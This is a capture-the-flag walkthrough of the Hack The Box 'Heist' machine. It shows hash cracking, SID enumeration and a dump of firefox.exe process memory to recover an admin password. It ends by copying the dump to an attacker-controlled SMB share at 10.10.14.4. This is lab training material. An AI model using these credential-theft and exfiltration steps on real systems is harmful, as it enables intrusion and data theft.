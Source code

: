 # Heist-walktrough
A writeup about the htb Heist box
## Enumeration
I use masscan and nmap for a quick scan, here i use a script which create a keepnote page report from the scan, found it [here](https://github.com/roughiz/EnumNeTKeepNoteReportCreator/blob/master/keepNoteScanNetReportCreator.sh).
 
In my first enumeration we can see, ftp and smb share, also http  (80,8080) ports :
```
$ create_SemiNoteFromIpWithMasscan.sh 10.10.10.149  /path/keepnote/Lab/htb  Heist  tun0
...

PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-cookie-flags: 
| /: 
| PHPSESSID: 
|_ httponly flag not set
| http-methods: 
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
| http-title: Support Login Page
|_Requested resource was login.php
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49669/tcp open msrpc Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```
Here we have an http site in port 80, smb and also port 5985 WinRm (it's like ssh for windows that users from group Windows Remote Management can use)

## Enumeration 
In the Home page we have a redirection to the login.php page, and we can authenticate as guest by clicking in the button "Login AS Guest" and the request redirect me to the page http://10.10.10.149/issues.php.
![issue](https://github.com/roughiz/Heist-walktrough/blob/master/issue.png)
We have some informations about config issues in a cisco router posted by a user "Hazard" and also a file with cisco config. In this file we have some hashes, so let's crack . 

## Username 
Hazard

## Hashes : 
We have two cisco hashes of type 7 (0242114b0e143f015f5d1e161713/02375012182c1a1d751618034f36415408)
And a cisco hash of type 5 : $1$pdQG$o8nrSzsGXeaduXrjlvKc91

### From config.txt 
```
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408

enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
```

I found a [site](https://www.frameip.com/decrypter-dechiffrer-cracker-password-cisco-7/) where we can crack this type of cisco hash:

###### Q4)sJu\Y8qz*A3?d ( admin)
###### $uperP@ssword (rout3r)

And i crack the cisco hash type 5 with john 

Firstly we store it into a file :
```
$ cat hash 
admin:$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
And we use john with rockyou dictionary like :
```
$ john   --wordlist=rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:27 17,13% (ETA: 15:30:13) 0g/s 98444p/s 98444c/s 98444C/s xhet17..xhaferi5
0g 0:00:00:29 18,55% (ETA: 15:30:12) 0g/s 98395p/s 98395c/s 98395C/s viperusa95..viper1980
stealth1agent    (admin)
```
###### stealth1agent    (admin)
Now we have many creds, let's try to authenticate with theses creds :
For smb we have the couple (hazard/stealth1agent)
```
$ smbmap -u hazard -p stealth1agent   -H 10.10.10.149
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: 10.10.10.149 
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                                  NO ACCESS
	C$                                                	NO ACCESS
	IPC$                                              	READ ONLY
```
Perhaps this couple of creds works with WinRm, i tried all couple of my 3 passwords and usernames, but it dosen't works , so after many search i found an impacket script which enumerate users through "MSRPC" interface :
```
$ lookupsid.py   Heist.htb/hazard:stealth1agent@10.10.10.149
Impacket v0.9.19-dev - Copyright 2019 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)
```
Here we have a new users let's try theses new users with WinRM script.
Finally the creds works for :

###### Q4)sJu\Y8qz*A3?d (chase)

Now i'm in the box as chase, i have to enumerate for priv esc : 
![User-flag](https://github.com/roughiz/Heist-walktrough/blob/master/userflag.png)

## Priv Esca :
I found this file with PowerUp.ps1 , but it appears that creator has update the box and remove the passwords into (i was late :) )
```
$ cat C:\Windows\Panther\Unattend.xml
 <component name="Microsoft-Windows-Shell-Setup" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" processorArchitecture="amd64">
    <AutoLogon>
     <Password>*SENSITIVE*DATA*DELETED*</Password>
     <Enabled>true</Enabled> 
     <Username>Administrator</Username> 
    </AutoLogon>
```
With ps command we see a strange process "firefox.exe", and with "netstat -ano" we see that firefox.exe client is connected to localhsot , surelly connect to the local site , so let's try to dump this process memory.
![ps-command](https://github.com/roughiz/Heist-walktrough/blob/master/ps.png)
![netstat](https://github.com/roughiz/Heist-walktrough/blob/master/netstat.png)

I used the function "Out-Minidump" from [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) like :
```
$ . .\PowerUp.ps1
$ Out-Minidump -Process (Get-Process -Id 6156)  # id caught from ps 
```
![dump](https://github.com/roughiz/Heist-walktrough/blob/master/dump.png)

And in my box, grep the file like: 
```
$ strings firefox_6156.dmp  |  grep -Fi "password=" | grep -i "admin"
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
![adminpass](https://github.com/roughiz/Heist-walktrough/blob/master/adminpass.png)
Here the user use the client firefox and send the http request to authenticate into the web app and we can caught the authentication info as :

###### 4dD!5}x/re8]FBuZ (admin@support.htb)
 
lets try theses creds  with smbmap like :
```
$  smbmap -uadministrator   -p '4dD!5}x/re8]FBuZ' -H 10.10.10.149
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.149...
[+] IP: 10.10.10.149:445	Name: Heist.htb 
	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                                  READ, WRITE
	C$                                                	READ, WRITE
	IPC$                                              	READ ONLY

```
Ok creds work great, now i tried two ways to have my flag: 

#### From output with smb 
```
$ smbclient  //10.10.10.149/C$ -Uadministrator
...
get root.txt
$ echo $(cat root.txt ) | wc -c
33
```
![flagroot](https://github.com/roughiz/Heist-walktrough/blob/master/flagrootsmb.png)
#### From the box with the admin share

```
$ net use r: \\SupportDesk\C$ /u:administrator "4dD!5}x/re8]FBuZ"
$ r:
```
![flagrootlocally](https://github.com/roughiz/Heist-walktrough/blob/master/flagrootlocally.png)
### Nota : 
- My winRm ruby script dosen't work for this box , i tried an other simple [script](https://alionder.net/winrm-shell/). (don't know why!!)

- I used smbserver.py from Impacket to exfiltrate the dump.
Firstly we have to launch the smb server with credentials like :
```
$ sudo smbserver.py share $(pwd) -smb2support -username df -password df
```
And in the windows box we first authenticate to the server, and copy the file like :
```
$ net use \\10.10.14.4\share /u:df df 
$ copy mozilla_dump** \\10.10.14.4\share\
```
 




